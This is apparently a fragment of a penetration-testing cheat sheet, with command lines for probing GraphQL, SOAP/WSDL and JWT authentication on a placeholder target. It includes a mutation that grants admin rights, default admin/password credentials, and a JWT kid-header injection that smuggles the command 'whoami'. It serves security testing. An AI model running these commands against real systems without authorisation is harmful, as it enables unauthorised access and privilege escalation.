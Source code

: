     ------
    graphqlmap -u https://target.com/graphql --dump-schema -o schema_very_full.gql --depth 5
    graphqlmap -u https://target.com/graphql --batching -o batching_vuln_detailed.txt --batch-size 10
    clairvoyance -o schema_hidden.json https://target.com/graphql -v --hidden
    clairvoyance -o custom_headers.json https://target.com/graphql -h "Authorization: Bearer admin_token"
    inql -t https://target.com/graphql -o inql_results_extensive -headers "X-CSRF-Token: value" -cookies "sessionid=..."
    inql -t https://target.com/graphql -o inql_mutation_complex --mutation 'mutation { updateUser(id: 1, data: { isAdmin: true }) { success } }'
    graphw00f -d -f -t https://target.com/graphql -e -v
    graphw00f -d -b -t https://target.com/graphql --timeout 15


### 4.3 SOAP/WSDL Testing
    wsdlfuzz -u https://target.com/wsdl -o wsdl_results.xml
    soapui -s https://target.com/service?wsdl -t test_case
    ------
    wsdlfuzz -u https://target.com/service?wsdl -o wsdl_results_full.xml -d 3
    wsdlfuzz -u https://target.com/api.asmx?wsdl -o asmx_fuzz.xml -w /usr/share/seclists/Fuzzing/SOAP-WSDL/Common-SOAP-Requests.txt
    soapui -s https://target.com/service?wsdl -t security_test_suite -j
    soapui -s https://target.com/old_service?wsdl -p admin -w password
    ------
    wsdlfuzz -u https://target.com/service?wsdl -o wsdl_results_deep.xml -d 5 -w /usr/share/seclists/Fuzzing/SOAP-WSDL/SOAP-Parameter-Fuzzing.txt
    wsdlfuzz -u https://target.com/api.asmx?wsdl -o asmx_fuzz_extended.xml -w custom_soap_payloads.txt -headers "Content-Type: text/xml"
    soapui -s https://target.com/service?wsdl -t security_test_suite_full -j -Dprop1=value1 -Dprop2=value2
    soapui -s https://target.com/old_service?wsdl -p admin -w password -s "Negative Tests"

## 5. AUTHENTICATION & SESSION TESTING


### 5.1 JWT Testing
    :- Tamper alg, change payload claim
    jwt_tool eyJhbGci... --exploit -X a -pc name -pv admin
    
    :- kid header injection for command execution
    jwt_tool eyJhbGci... --exploit -I -hc kid -hv "/dev/null;whoami"
    
    :- Sign with new key (e.g. after alg confusion)
    jwt_tool eyJhbGci... -S hs256 -k "public_key.pem"
    
    :- Verify with public key
    jwt_tool eyJhbGci... -V -pk public_key.pem
    
    :- Add new 'password' claim
    jwt_tool eyJhbGci... -A -p password
    
    :- Decode only
    jwt_tool eyJhbGci... -d
